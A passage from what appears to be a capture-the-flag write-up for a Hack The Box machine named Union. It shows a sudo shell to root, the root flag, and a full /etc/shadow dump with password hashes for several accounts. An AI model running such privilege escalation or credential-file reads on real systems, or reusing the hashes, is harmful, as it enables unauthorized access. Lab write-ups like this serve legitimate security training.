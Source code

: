 ```python
www-data@union:~/html$ sudo bash
root@union:/var/www/html# whoami
root
root@union:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
root@union:/var/www/html# 
```

## Root.txt

```powershell
root@union:~# cat root.txt 
92471af0ac1c2344c3aacd765e0bb629
root@union:~# 
```

## Hashes de los usuarios

```powershell
root@union:~# cat /etc/shadow
root:$6$M31kK8hNipCL8.tB$ZIQr.SBbcQVzeSelXNpXxXa6KbLt/gFE8c1LmNdKseEcYdIU/Do7SpAYR64wo.rGZCEfuMu76bZK3lPRb.is.0:18946:0:99999:7:::
daemon:*:18474:0:99999:7:::
bin:*:18474:0:99999:7:::
sys:*:18474:0:99999:7:::
sync:*:18474:0:99999:7:::
games:*:18474:0:99999:7:::
man:*:18474:0:99999:7:::
lp:*:18474:0:99999:7:::
mail:*:18474:0:99999:7:::
news:*:18474:0:99999:7:::
uucp:*:18474:0:99999:7:::
proxy:*:18474:0:99999:7:::
www-data:*:18474:0:99999:7:::
backup:*:18474:0:99999:7:::
list:*:18474:0:99999:7:::
irc:*:18474:0:99999:7:::
gnats:*:18474:0:99999:7:::
nobody:*:18474:0:99999:7:::
systemd-network:*:18474:0:99999:7:::
systemd-resolve:*:18474:0:99999:7:::
systemd-timesync:*:18474:0:99999:7:::
messagebus:*:18474:0:99999:7:::
syslog:*:18474:0:99999:7:::
_apt:*:18474:0:99999:7:::
tss:*:18474:0:99999:7:::
uuidd:*:18474:0:99999:7:::
tcpdump:*:18474:0:99999:7:::
pollinate:*:18474:0:99999:7:::
usbmux:*:18810:0:99999:7:::
sshd:*:18810:0:99999:7:::
systemd-coredump:!!:18810::::::
htb:$6$qcuevO0/pOYIB5aJ$0ouwHJ2oBp7.Zb9WMFNnBHfzwQ67texEmpi/l5VVEnItd0a2cIaP.2fs7YLs6aJpIu8LyFzNHMhPUiu/djtHj.:18943:0:99999:7:::
lxd:!:18810::::::
mysql:!:18810:0:99999:7:::
uhc:$6$u6a.wGE7FfQsBAUV$cSuifBRqpEJSFtz7KzXS3Rst6S1yC3O5/LRiO0ADtVmtS9YL2ARIpf5x8SWX1GngBmZmSZEubTXJ3K1IgA26N.:18939:0:99999:7:::
root@union:~#
```
